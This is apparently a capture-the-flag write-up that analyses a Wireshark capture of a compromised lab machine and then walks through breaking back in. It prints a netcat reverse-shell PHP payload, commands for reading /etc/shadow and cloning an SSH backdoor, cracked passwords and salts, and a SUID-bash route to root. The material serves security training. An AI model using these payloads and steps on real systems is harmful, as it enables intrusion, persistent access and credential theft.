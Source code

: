 # Overpass 2 Hacked

An analysis of the wireshark data of a hacked computer

You can quickly see that an IP of `192.168.170.145` uploads `payload.php`

In the packet analysis you can see that it has a php payload in it
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
which is standard code for a reverse shell

They then explore the directories and su into james
```
whenevernoteartinstant
```

Checks his sudo permissions and has permission to sudo anything

After which they git clone a persistence module
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

Now they `sudo cat /etc/shadow`

We can see that there are several weak hashes (cracked by john using the fast track wordlist)

they also generate an ssh key `id_rsa`

---
 
Analysing the code we can see that it takes a hash as an input and uses a hardcoded salt

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` is the default hash
`1c362db832f3f864c8c2fe05f2002a05` hardcoded salt
`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` user hash

crack the hash using hashcat mode 1710 in the format `hash:salt` with the rockyou wordlist

Cracked the password:
`november16`

---

Hacking back into the machine

IP=`10.10.42.43`

Had to use port 2222 to ssh in through the backdoor

sudo passwords were changed

noticed a .suid_bash file in james home directory
decided to run that with -p
got root access

Got both flags!
